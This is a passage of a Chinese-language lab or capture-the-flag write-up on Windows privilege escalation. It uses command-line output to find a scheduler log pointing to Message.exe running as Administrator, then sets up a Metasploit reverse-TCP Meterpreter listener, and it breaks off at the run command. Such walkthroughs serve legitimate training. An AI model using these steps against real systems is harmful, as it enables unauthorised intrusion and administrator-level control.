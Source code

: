 + 查找异常服务对应的二进制文件;

   ```
   C:\Windows\Temp>cd C:\Program Files (x86)\SystemScheduler
   cd C:\Program Files (x86)\SystemScheduler

   C:\Program Files (x86)\SystemScheduler>dir
   dir
   ···
   12/09/2023  12:34 AM    <DIR>          Events
   ···
   C:\Program Files (x86)\SystemScheduler>cd events
   cd events

   C:\Program Files (x86)\SystemScheduler\Events>dir
   dir
   ···
   12/09/2023  12:35 AM            32,750 20198415519.INI_LOG.txt
   ···
   C:\Program Files (x86)\SystemScheduler\Events>cat 20198415519.INI_LOG.txt
   cat 20198415519.INI_LOG.txt
   'cat' is not recognized as an internal or external command,
   operable program or batch file.

   C:\Program Files (x86)\SystemScheduler\Events>type 20198415519.INI_LOG.txt
   type 20198415519.INI_LOG.txt
   08/04/19 15:06:01,Event Started Ok, (Administrator)
   08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
   08/04/19 15:07:00,Event Started Ok, (Administrator)
   08/04/19 15:07:34,Process Ended. PID:2680,ExitCode:4,Message.exe (Administrator)
   08/04/19 15:08:00,Event Started Ok, (Administrator)
   ···
   ```
   + 二进制文件：Message.exe

+ 利用异常服务及其对应的二进制文件进行提权：
   
   + 这里重启过目标,target ip : 10.10.192.130

   + 在本地机上运行Metasploit以设置一个新的监听器接收root shell：

      ```
      msf6 > use exploit/multi/handler
      [*] Using configured payload generic/shell_reverse_tcp
      msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
      PAYLOAD => windows/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set LHOST 10.11.15.168 // our local ip
      LHOST => 10.11.15.168 // our local ip
      msf6 exploit(multi/handler) > set LHOST 10.11.61.123
      LHOST => 10.11.61.123
      msf6 exploit(multi/handler) > set LPORT 6666
      LPORT => 6666
      msf6 exploit(multi/handler) > run
